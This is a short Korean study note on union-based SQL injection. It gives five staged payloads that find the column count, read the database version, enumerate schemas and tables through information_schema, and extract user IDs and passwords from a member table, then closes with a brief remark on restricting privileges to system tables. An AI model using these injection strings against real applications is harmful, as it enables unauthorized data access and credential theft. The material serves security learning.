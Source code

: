 #### Union-based SQL Injection
📚**<span style="color: #008000">Union-based SQL Injection</span>**: UNION 명령어를 사용하여 원래 쿼리 결과와 공격자가 원하는 정보를 함께 출력시키는 기법

```sql
-- 첫번째 작은 따옴표는 무시
-- 1단계: 컬럼 수 확인 
'   admin' union select 1,2,3,4,5,6 #

-- 2단계: 데이터베이스 버전 확인 
'   admin' union select version(),2,3,4,5,6

-- 3단계: 스키마 정보 추출 
'   admin' union select schema_name,2,3,4,5,6 from information_schema.schemata #

-- 4단계: 테이블 목록 확인
'   admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database() #

-- 5단계: 사용자 계정 정보 탈취 
'   admin' union select idx,userid,userpw,username,5,6 from board_member #
```

![alt text](../assets/img/SC/unionsystable.png)

* 공격자들이 DB 내부구조를 활용해서 공격하려면 DBMS 시스템 테이블의 구조를 파악해야한다.
* DB가 동작하는 동안 사용하는 테이블이므로 막는 것도 어렵다.
* 많은 애플리케이션들이 이런 시스템 테이블을 활용하는 경우도 많기 때문에
이런 상황이 아니라면 일반 사용자들의 권한을 막는게 좋다.

---
